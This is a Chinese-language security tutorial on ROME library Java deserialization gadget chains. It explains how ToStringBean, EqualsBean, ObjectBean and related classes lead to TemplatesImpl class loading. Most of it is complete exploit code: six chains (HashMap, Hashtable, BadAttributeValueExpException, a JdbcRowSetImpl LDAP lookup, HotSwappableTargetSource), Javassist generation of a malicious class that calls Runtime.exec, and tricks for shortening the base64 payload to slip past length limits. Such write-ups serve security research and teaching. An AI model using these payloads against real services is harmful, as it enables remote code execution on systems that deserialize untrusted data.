




Java 反序列化之 ROME 反序列化


# Java 反序列化之 ROME 反序列化

## ROME 是什么：

它指的是一个有用的工具库，帮助处理和操作 XML 格式的数据。ROME 库允许我们把 XML 数据转换成 Java 中的对象，这样我们可以更方便地在程序中操作数据。另外，它也支持将 Java 对象转换成 XML 数据，这样我们就可以把数据保存成 XML 文件或者发送给其他系统。

他有个特殊的位置就是 ROME 提供了 ToStringBean 这个类，提供深入的 toString 方法对 Java Bean 进行操作。

## 环境依赖：

```plain
<dependencies>
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
    </dependencies>
```

## ToStringBean：

在我们最后实现任意类加载前，需要有东西来调用 Templateslmpl.getOutputProperties() 从而触发 newTransformer 方法动态加载恶意类，这里我们使用的一个关键就是 ROME 中自带的 ToStringBean 类中的 toString 方法：

```plain
private String toString(String prefix) {
    StringBuffer sb = new StringBuffer(128);
    try {
        #获取 getter
        PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
        if (pds != null) {
            for(int i = 0; i < pds.length; ++i) {
                String pName = pds[i].getName();
                Method pReadMethod = pds[i].getReadMethod();
                if (pReadMethod != null && pReadMethod.getDeclaringClass() != Object.class && pReadMethod.getParameterTypes().length == 0) {
                    #执行 getter
                    Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
                    this.printProperty(sb, prefix + "." + pName, value);
                }
            }
        }
    } ...
}
```

我们可以发现`PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);`其实和 JavaBean 中调用 getter 的方法类似，而下面 for 循环就是对 pds(取到的 getter 方法) 进行反射调用。

所以这里我们就可以通过 ToStringBean 类的 toString 方法来调用 getOutputProperties 方法，这里我们可以发现有两个参数：

`this._beanClass`和`this._obj`,根据参数的名我们就可以知道 beanClass 是 javaBean 类型的 class，obj 就是我们要传入的实例化的 Templateslmpl 类对象：

```plain
public ToStringBean(Class beanClass, Object obj) {
        this._beanClass = beanClass;
        this._obj = obj;
    }
```

这里我们最好选择 Template 这个接口，然后调用里面的 getOutputObject 方法后，在 TemplatesImpl 类中进行实现，因为 Template 就一个 getter 方法，直接从 TemplatesImpl 中进行调用 getter 有可能会因为 getter 方法过多调用不到。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230807155204-4cde3ae2-34f7-1.png)

```plain
ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
```

## 入口分析：

中间我们通过 ToStringBean 类中的 toString 方法实现了调用，那么我们就在入口处，找到 readObject 能调用 toString 方法的链子就可以了：这里 ROME 采用了 HashMap() 作为入口点，最终调用任意类的 hashCode 方法，而恰好在 ROME 中有一个 EqualsBean 类中存在 hashCode()，同时还能够调用任意类的 toString，于是这条链子就打通了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230807155213-51dcecfa-34f7-1.png)

## EXP(EqualsBean)：

```plain
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeToStringBean {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);

//防止序列化触发
        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

//再改回正常的参数
        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
        serialize(hashMap);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(ObjectBean)：

在`ObjectBean.hashcode()`中调用了`EqualsBean.beanHashCode()`，其作用和`EqualsBean.hashCode()`等价，所以我们就可以将`EqualsBean.hashCode()`替换为`ObjectBean.hashcode()`:

[](https://xzfile.aliyuncs.com/media/upload/picture/20230807155234-5eb64f8e-34f7-1.png)

```plain
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeObjectBean {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);


        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(objectBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
//        serialize(hashMap);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(HashTable)：

这里针对如果入口类黑名单中存在 HashMap 类，我们这里能够用 HashTable 进行绕过，我们可以发现 HashTable 的 readObject 地方，对每个 key 和 value 都会调用 reconstitutionPut() 函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230807155246-658cea7a-34f7-1.png)

我们可以发现 key 调用了 hashCode() 方法，这样就又能够任意类调用 hashCode 了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230807155252-691aecf0-34f7-1.png)

```plain
package EXPROME;

import java.util.Hashtable;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeHashTable {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);


        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
//        serialize(hashtable);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(BadAttributeValueExpException)：

CC 里面调用 toString 的方法

```plain
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections4.functors.ConstantTransformer;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Hashtable;

public class RomeBdAttribute {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(JdbcRowSetImpl):

JdbcRowSetImpl 在 FastJson 中在<=1.2.24 时使用的一个链子，这是针对后半段动态类加载不出网换成出网的操作：

```plain
package EXPROME;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections4.functors.ConstantTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class RomeJdbc {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:8085/zARQtFym";
        jdbcRowset.setDataSourceName(url);


        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

        //再改回正常的参数
        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,jdbcRowset);
//        serialize(hashMap);
        unserialize("ser.bin");
}

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(HotSwappableTargetSource):

这条是 spring 原生的 toString 利用链，后续在研究，调用链如下

```plain
* HashMap.readObject
* HashMap.putVal
* HotSwappableTargetSource.equals
* XString.equals
* ToStringBean.toString
public class ROME_HotSwappableTargetSource {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();

        byte[] bytecodes = Files.readAllBytes(Paths.get("D:\\CTF\\Security_Learning\\ROME\\target\\classes\\shell.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {bytecodes});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(TemplatesImpl.class,templatesimpl);
        toStringBean.toString();

        HotSwappableTargetSource h1 = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(new XString("xxx"));

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(h1,h1);
        hashMap.put(h2,h2);

        Serial.Serialize(hashMap);
        Serial.DeSerialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

}
```

## 缩短 Payload：

这里 feng 师傅也进行了一个扩展，如果存在 payload 长度限制，我们就要对 payload 长度的一个缩短，经过测试发现 EqualsBean 链子的长度是 2k 目前来说最短，我们就在此基础上继续缩短

### 使用 Javassist 缩短恶意 class

#### Javassist：

Java 字节码以二进制的形式存储在 .class 文件中，每一个.class 文件包含一个 Java 类或接口。Javaassist 就是一个用来处理 Java 字节码的类库。它可以在一个已经编译好的类中添加新的方法，或者是修改已有的方法，并且不需要对字节码方面有深入的了解。同时也可以通过手动的方式去生成一个新的类对象。其使用方式类似于反射。

#### ClassPool

`ClassPool`是`CtClass`对象的容器。`CtClass`对象必须从该对象获得。如果`get()`在此对象上调用，则它将搜索表示的各种源`ClassPath` 以查找类文件，然后创建一个`CtClass`表示该类文件的对象。创建的对象将返回给调用者。可以将其理解为一个存放`CtClass`对象的容器。

获得方法： `ClassPool cp = ClassPool.getDefault();`。通过 `ClassPool.getDefault()` 获取的 `ClassPool` 使用 JVM 的类搜索路径。**如果程序运行在 JBoss 或者 Tomcat 等 Web 服务器上，ClassPool 可能无法找到用户的类**，因为 Web 服务器使用多个类加载器作为系统类加载器。在这种情况下，**ClassPool 必须添加额外的类搜索路径**。

```plain
cp.insertClassPath(new ClassClassPath(<Class>));
```

#### CtClass

可以将其理解成加强版的 Class 对象，我们可以通过 CtClass 对目标类进行各种操作。可以`ClassPool.get(ClassName)`中获取。

#### CtMethod

同理，可以理解成加强版的`Method`对象。可通过`CtClass.getDeclaredMethod(MethodName)`获取，该类提供了一些方法以便我们能够直接修改方法体

```plain
public final class CtMethod extends CtBehavior {
    // 主要的内容都在父类 CtBehavior 中
}

// 父类 CtBehavior
public abstract class CtBehavior extends CtMember {
    // 设置方法体
    public void setBody(String src);

    // 插入在方法体最前面
    public void insertBefore(String src);

    // 插入在方法体最后面
    public void insertAfter(String src);

    // 在方法体的某一行插入内容
    public int insertAt(int lineNum, String src);

}
```

feng 师傅还介绍了几种对应的语言扩展：

| 符号  | 含义  |
| --- | --- |
| $0,$1, $2, ... | $0 = this; $1 = args\[1\] ..... |
| $args | 方法参数数组。它的类型为 Object\[\] |
| $$  | 所有实参。例如，m($$) 等价于 m(1,2,...) |
| $cflow(...) | cflow 变量 |
| $r  | 返回结果的类型，用于强制类型转换 |
| $w  | 包装器类型，用于强制类型转换 |
| $\_ | 返回值 |
| $sig | 类型为 java.lang.Class 的参数类型数组 |
| $type | 一个 java.lang.Class 对象，表示返回值类型 |
| $class | 一个 java.lang.Class 对象，表示当前正在修改的类 |

### 应用：

引入依赖：

```plain
<dependency>
    <groupId>org.javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.19.0-GA</version>
</dependency>
```

我们尝试用 Javassist 生成一个类

```plain
package JavaassitTest;
import javassist.*;
import java.io.IOException;
public class JavassitLearning {
    public static void CreateClass() throws NotFoundException, CannotCompileException, IOException {
        //获取 CtClass 对象的容器 ClassPool
        ClassPool pool = ClassPool.getDefault();
        //在当前目录下创建一个 Person 类
        CtClass ctClass = pool.makeClass("Person");
        //创建一个类属性 name，用 ClassPool.get(ClassName) 获取内容
        CtField ctField1 = new CtField(pool.get("java.lang.String"),"name",ctClass);
        //设置属性访问权限
        ctField1.setModifiers(Modifier.PRIVATE);
        //将 name 属性添加进 Person 中，并设置初始值为 Ic4F1ame
        ctClass.addField(ctField1,CtField.Initializer.constant("Ic4F1ame"));
        //向 Person 类中添加 setter 和 getter 方法
        ctClass.addMethod(CtNewMethod.setter("setName",ctField1));
        ctClass.addMethod(CtNewMethod.getter("getName",ctField1));
        //创建一个无参构造
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        //设置方法体
        constructor.setBody("{name = \"Ic4F1ame\";}");
        //向 Person 类中添加该无参构造
        ctClass.addConstructor(constructor);
        //创建一个类方法 printName
        CtMethod ctMethod = new CtMethod(CtClass.voidType,"printName",new CtClass[]{},ctClass);
        //设置方法访问符
        ctMethod.setModifiers(Modifier.PRIVATE);
        //设置方法体
        ctMethod.setBody("{System.out.println(name);}");
        //将该方法添加进 Person 中
        ctClass.addMethod(ctMethod);
        //将生成的字节码写入文件
        ctClass.writeFile("D:\\Tomcat\\CC\\src\\main\\java\\JavaassitTest");
    }

    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        CreateClass();
    }
}
```

然后我们来看一下我们生成的 Person 类

```plain
public class Person {
    private String name = "Ic4F1ame";

    public void setName(String var1) {
        this.name = var1;
    }

    public String getName() {
        return this.name;
    }

    public Person() {
        this.name = "Ic4F1ame";
    }

    private void printName() {
        System.out.println(this.name);
    }
}
```

### 生成恶意类：

因为恶意类需要继承`AbstractTranslet`类，并重写两个`transform()`方法。否则编译无法通过，无法生成`.class`文件，但是执行的时候我们并没有用到两个方法，同时使用 Javassit 生成的时候直接生成的是字节码类型的恶意类，所以跳过了编译的过程，就不需要引入重写的方法：

```plain
package EXPShell;
import javassist.*;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class GetShellCode {

    public static CtClass getTemplatesImpl(String cmd) {
        CtClass ctClass = null;
        try {
            ClassPool pool = ClassPool.getDefault();
            ctClass = pool.makeClass("A");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = CtNewConstructor.make("public A(){Runtime.getRuntime().exec(\"" + cmd + "\");\n}", ctClass);
            ctClass.addConstructor(constructor);
            return ctClass;

        } catch (Exception e) {
            e.printStackTrace();
            return ctClass;
        }
    }

    public static void WriteShell() throws IOException, CannotCompileException {
        CtClass shell = GetShellCode.getTemplatesImpl("calc");
        shell.writeFile("D:\\Tomcat\\CC\\src\\main\\java\\JavaassitTest");
    }
    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        WriteShell();
    }
}
```

这就是我们生成的恶意类：

```plain
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class A extends AbstractTranslet {
    public A() {
        Runtime.getRuntime().exec("calc");
    }
}
```

生成二进制文件形式：

```plain
package EXPShell;
import javassist.*;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class GetShellCode {
    public static byte[] getTemplatesImpl(String cmd){
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("A");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = CtNewConstructor.make("public A(){Runtime.getRuntime().exec(\"" + cmd + "\");\n}", ctClass);
            ctClass.addConstructor(constructor);
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;

        }catch (Exception e){
            e.printStackTrace();
            return new byte[]{};
        }
    }

    public static void WriteShell() throws IOException {
        byte[] shell = GetShellCode.getTemplatesImpl("calc");
        FileOutputStream fileOutputStream = new FileOutputStream(new File("D:\\Tomcat\\CC\\src\\main\\java\\EXPShell\\S"));
        fileOutputStream.write(shell);
    }
    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        WriteShell();
    }
}
```

然后我们就可以进行我们 payload 缩短了，首先注意几个赋值的地方：

*   TemplatesImpl.\_name 的长度可以为 1
*   TemplatesImpl.\_tfactory 可以不用赋值
*   HashMap 的 value 长度可以为 1

```plain
package EXPROME;

import EXPShell.GetShellCode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class RomeEqualsShorter {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesimpl = new TemplatesImpl();
//        byte[] bytecodes = Files.readAllBytes(Paths.get("D:\\Tomcat\\CC\\src\\main\\java\\EXPShell\\A.class"));
//        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());
        setValue(templatesimpl,"_name","a");
        setValue(templatesimpl,"_bytecodes",new byte[][] {genPayload("calc")});


        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesimpl);

        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean, "1");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())).length());

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
        }

    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230807155316-77b36c42-34f7-1.png)

可以看到缩短以后 EqualsBean 的链子从 2.8k 缩短到了 1.3k，缩短了百分之五十还多，达到了我们缩短 payload 的目的

参考文章：  
[https://goodapple.top/archives/1145](https://goodapple.top/archives/1145)  
[https://forum.butian.net/share/2137](https://forum.butian.net/share/2137)  
[https://boogipop.com/2023/04/26/%E6%98%93%E6%87%82%E7%9A%84Rome%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%EF%BC%88%E6%9B%B4%E6%96%B0%EF%BC%89/#EqualsBean%E9%93%BE](https://boogipop.com/2023/04/26/%E6%98%93%E6%87%82%E7%9A%84Rome%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%EF%BC%88%E6%9B%B4%E6%96%B0%EF%BC%89/#EqualsBean%E9%93%BE)
